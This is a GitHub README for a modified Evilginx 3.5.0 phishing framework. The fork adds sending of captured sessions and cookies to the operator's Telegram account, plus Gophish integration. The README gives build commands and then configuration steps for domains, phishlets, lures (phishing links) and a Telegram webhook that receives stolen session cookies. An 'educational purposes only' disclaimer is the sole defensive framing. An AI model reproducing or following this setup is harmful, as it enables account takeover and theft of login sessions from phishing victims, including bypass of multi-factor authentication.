 
![eviltelgram](https://github.com/itwizardo/evilginx2telegram/assets/32465924/66b6a8f4-73ff-496e-a2c7-38f5a8ff1c3f)

# Evilginx 3.5.0 - Modified By Itwizardo

This is a modified version of Evilginx 3.5.0 that includes functionality to send
sessions to your Telegram account, including the cookies file.
It also has the new Gophish integration and bug fixes.

---

## Features

- **Telegram Integration**: Send session data and cookies to your Telegram account.
- **Gophish Integration**: New support for Gophish phishing campaigns.
- **Bug Fixes**: Various improvements and bug fixes over the original Evilginx.

---

## Ubuntu Installation

To install Evilginx 3.5.0 - Modified By Itwizardo on Ubuntu, follow these steps:

1. Clone the repository:

    ```bash
    git clone https://github.com/itwizardo/evilginx2telegram.git
    ```

2. Navigate to the cloned directory:

    ```bash
    cd evilginx2telegram
    ```

3. Install dependencies:

    ```bash
    go get
    ```

4. Build the project:

    ```bash
    go build
    ```

5. Make the executable:

    ```bash
    make
    ```

6. Navigate to the build directory:

    ```bash
    cd build
    ```

7. Set permissions for the Evilginx executable:

    ```bash
    chmod +rwx evilginx
    ```

8. Run Evilginx:

    ```bash
    ./evilginx -p ../phishlets/
    ```

---

## Configuration Setup

Before using Evilginx, you need to set up your configuration. Follow these steps:

1. Set the domain:

    ```bash
    config domain example.com
    ```

2. Set the external server IP:

    ```bash
    config ipv4 external <server-ip>
    ```

3. Set the server IP to bind to:

    ```bash
    config ipv4 bind <server-ip>
    ```

4. Configure the phishing lets (phishlets):

    ```bash
    phishlets hostname <phishlet-name> <your-domain.com>
    ```

5. Enable the phishlet:

    ```bash
    phishlets enable <your-phishlet-name>
    ```

6. Create the lure (link) for your phishlet:

    ```bash
    lures create <your-phishlet-name>
    ```

7. List lures:

    ```bash
    lures
    ```

8. Get the URL for the created lure:

    ```bash
    lures get-url <lure-id>
    ```

9. Set the unauthenticated URL (optional):

    ```bash
    config unauth_url https://example.com/unauthenticated
    ```

10. Enable/disable SSL certificate auto-generation:

    ```bash
    config autocert on  # or off
    ```

11. Configure the Telegram webhook:

    ```bash
    config webhook_telegram <your-telegram-token>/<your-chat-id>
    ```

    Replace `<your-telegram-token>` with the token provided by BotFather and `<your-chat-id>` with your chat ID (explained below).

---

## Setting Up Telegram

To receive session data (including cookies) on your Telegram, you need to set up a Telegram bot and get your chat ID.

### How to Get Your Chat ID:

1. Open Telegram and search for `@raw_data_bot`.
2. Start a conversation with the bot.
3. The bot will send you your chat ID.

### How to Get Your Telegram Token:

1. Open Telegram and search for `@BotFather`.
2. Start a conversation with `@BotFather` by sending `/start`.
3. Follow the instructions to create a new bot and receive your bot's token.

---

## Important Notes

- **Security**: Ensure that you're using this tool in a controlled and legal environment. Do not use this tool for illegal activities.
- **Educational Use**: This tool is intended for cybersecurity learning and testing purposes only. The creators are not responsible for any misuse.
- **Dependencies**: This tool requires Go and the necessary libraries to run. Ensure that you have the correct environment set up.

---

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

**For Educational Purposes Only:**

Evilginx 3.5.0 - Modified By Itwizardo is intended for educational purposes only. Any use of this tool for malicious or illegal activities is strictly prohibited. The developers and contributors are not responsible for any misuse of this tool.
